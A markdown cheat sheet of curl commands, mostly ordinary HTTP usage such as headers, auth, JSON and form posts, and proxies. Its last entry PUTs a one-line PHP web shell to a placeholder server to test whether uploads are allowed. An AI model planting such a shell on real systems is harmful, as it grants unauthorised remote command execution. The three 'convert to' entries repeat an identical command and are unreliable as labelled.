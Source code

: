 ```yaml
---
title: Basics
date: {{ date }}
background: bg-green-400
icon: curl
tags:
- curl
categories:
- Linux Command
intro: A quick cheat sheet for curl
plugins:
- copyCode
---
```


Curl Basics
---------------

### Get header
```shell script
$ curl -i <URL>
```

### Follow redirects
```shell script
$ curl -L <URL>
```

### Ignore ssl error
```shell script
$ curl -k <URL>
```

### Specific HTTP Method
```shell script
$ curl -XPOST <URL>
$ curl -XPUT <URL>
$ curl -XDELETE <URL>
```

Set values
-----------

### Cookie
```shell script {.wrap}
curl --cookie "Name=Value" <URL>
```

### User Agent
```shell script {.wrap}
curl -A "ReqBin Curl Client/1.0" <URL>
```
### Custom Header
```shell script {.wrap}
curl -H "X-Custom-Header: value" <URL>
```
### Basic auth
```shell script {.wrap}
curl -u "login:password" <URL>
```

Parameters
-----------

### Connection timeout
```shell script {.wrap}
curl --connection-timeout 5 <URL>
```

### Post Json Curl
```shell script {.wrap}
curl -X POST <URL> -H 'Content-Type: application/json' -d '{"login":"my_login","password":"my_password"}'
```

### Post with body curl
```shell script {.wrap}
curl -X POST <URL> -H "Content-Type: application/json" -d '{"productId": 123456, "quantity": 100}'
```

### Post file using curl
```shell script {.wrap}
curl -d @data.json <URL>
```

### Curl through proxy
```shell script {.wrap}
curl <URL> -x myproxy.com:8080 -U login:password
```

### Curl with bearer token authrizaion header
```shell script {.wrap}
curl <URL> -H "Accept: application/json" -H "Authorization: Bearer {token}"
```

### Curl fetching json
```shell script {.wrap}
curl <URL> -H "Accept: application/json"
```

### Post form data with curl
```shell script {.wrap}
curl -X POST <URL> -H "Content-Type: application/x-www-form-urlencoded" -d "param1=value1&param2=value2"
```

### Set Content type curl
```shell script {.wrap}
curl -X POST <URL> -H 'Content-Type: application/json' -H 'Accept: application/json' -d '{"Id": 78912, "Quantity": 1, "Price": 19.00}'
```

### Post XML with curl
```shell script {.wrap}
curl -X POST <URL> -H "Content-Type: application/xml" -H "Accept: application/xml" -d "<Request><Login>my_login</Login><Password>my_password</Password></Request>"
```

### Curl fetch XML
```shell script {.wrap}
curl <URL> -H "Accept: application/xml"
```

### Curl send PUT request
```shell script {.wrap}
curl -X PUT <URL> -d "PUT request data"
```

### Curl send DELETE request
```shell script {.wrap}
curl -X DELETE <URL> -H "Accept: application/json"
```

### Curl send OPTIONS request
```shell script {.wrap}
curl https://api.reqbin.com/api/v1/requests -X OPTIONS -H "Access-Control-Request-Method: POST" -H "Access-Control-Request-Headers: content-type" -H "Origin: https://reqbin.com"
```

### Curl send CORS request
```shell script {.wrap}
curl -H "Origin: https://example.reqbin.com" https://sample-site.com
```

### Curl convert to PYTHON
```shell script {.wrap}
curl -X POST <URL> -H "Content-Type: application/json" -d "{\"login\":\"my_login\",\"password\":\"my_password\"}"
```

### Curl convert to Javascript / AJAX Calls
```shell script {.wrap}
curl -X POST <URL> -H "Content-Type: application/json" -d "{\"login\":\"my_login\",\"password\":\"my_password\"}"
```

### Curl convert to PHP
```shell script {.wrap}
curl -X POST <URL> -H "Content-Type: application/json" -d "{\"login\":\"my_login\",\"password\":\"my_password\"}"
```

### Curl convert to HTTP request
```shell script {.wrap}
curl https://sample-site.com/get/json -H "Content-Type: application/json" -H "Accept: application/json"
```

### Check if it is possible to upload using put
```shell script {.wrap}
curl -v -X OPTIONS http://INSERTIPADDRESS/
curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://INSERTIPADDRESS/test/shell.php
```